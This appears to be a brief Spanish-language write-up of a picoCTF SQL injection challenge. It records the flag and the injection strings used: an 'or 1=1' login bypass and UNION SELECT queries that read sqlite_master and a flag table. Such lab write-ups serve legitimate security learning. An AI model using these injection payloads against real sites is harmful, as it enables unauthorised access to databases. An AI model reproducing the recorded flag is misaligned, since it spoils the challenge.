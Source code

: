 
Descripcion:
Can you find the flag on this website.

Additional details will be available after launching your challenge instance.

Solucion(s):
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_3b0fca37}
Notas:
se utiliza el comando 'or 1=1;' para el login
despues se utiliza un " union select sql,2,3 from sqlite_master;" para sacar la estructura de las tablas.

escojemos la tabla con la flag con"union select id,flag,3 from more_table;" obtenemos la flag.
Referencias:
https://www.youtube.com/watch?v=clMe4yqL6yU&list=PLDo9DMLZyP6kTZ8Td37-LdbAx4-yNfHBl&index=63